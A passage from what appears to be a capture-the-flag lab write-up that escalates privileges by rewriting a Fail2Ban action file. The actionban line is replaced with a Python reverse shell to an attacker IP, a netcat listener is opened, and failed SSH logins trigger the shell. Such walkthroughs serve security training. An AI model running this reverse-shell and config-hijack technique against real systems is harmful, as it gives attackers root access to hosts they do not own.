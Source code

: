 > I copy the file to `/tmp/tmp.conf` and modify that

```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.172",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2
(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

I set up my local listener in Kali:

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ nc -lvnp 80  
listening on [any] 80 ...
```

I move the `/tmp/tmp.conf` file to `/etc/fail2ban/action.d/iptables-multiport.conf` and verify the contents are as expected:

```
fox@fail:/etc/fail2ban/action.d$ cp /tmp/tmp.conf /etc/fail2ban/action.d/iptables-multiport.conf
fox@fail:/etc/fail2ban/action.d$ cat /etc/fail2ban/action.d/iptables-multiport.conf | grep actionban
# Notes.:  command executed once before each actionban command
# Option:  actionban
actionban = python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.172",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2
(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

I wait a couple of minutes for the config to get picked up, then generate a few failed connections from the Kali machine (to trigger the `actionban` command)

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ ssh fox@fail
fox@fail's password: 
Permission denied, please try again.
fox@fail's password: 
Permission denied, please try again.
fox@fail's password: 
fox@fail: Permission denied (publickey,password).
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/fail]
└─$ ssh fox@fail
fox@fail's password: 
Permission denied, please try again.
fox@fail's password: 
Permission denied, please try again.
fox@fail's password: 
fox@fail: Permission denied (publickey,password).
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/fail]
└─$ ssh fox@fail
fox@fail's password: 
Permission denied, please try again.
fox@fail's password: 
Permission denied, please try again.
fox@fail's password: 
fox@fail: Permission denied (publickey,password).
```
